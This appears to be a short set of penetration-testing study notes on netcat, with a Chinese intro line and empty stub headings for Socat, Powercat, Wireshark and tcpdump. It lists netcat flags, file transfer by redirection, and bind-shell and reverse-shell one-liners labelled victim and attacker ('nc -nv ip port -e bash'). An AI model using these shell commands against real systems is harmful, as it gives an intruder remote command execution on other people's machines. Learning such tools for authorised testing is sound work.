 # Practical Tools

一些渗透场景中, 目标环境中一般已有的工具

## Netcat

utility which reads and writes data across network connections, using TCP or UDP protocols

### Connecting to a TCP/UDP Port

- `n` skip dns name resolution
- `v` add some verbosity

```bash
nc -nv ip port
```

### Listening on a TCP/UDP Port

- `n` diable dns name resolution
- `l` create a listener
- `p` specify the listening port number
- `v` add some verbosity
- `e` specify filename to exec after connect
- `c` specify shell commands to exec after connect
- `k` forces nc to stay listening for another connection after its current connection is completed

```bash
nc -nlvp port
```

### Transferring Files with Netcat

1. use redirection

```bash
# receive
nc -nlvp port > file

# send
nc -nv ip port < file
```

### Remote Administration with Netcat

1. bind shell

```bash
# victim
nc -nlvp port -e bash

# attacker
nc -nv ip port
```

2. reverse shell

```bash
# attacker
nc -nlvp export 

# victim
nc -nv ip port -e bash

```

## Socat

## Powershell & Powercat

## wireshark

## tcpdump
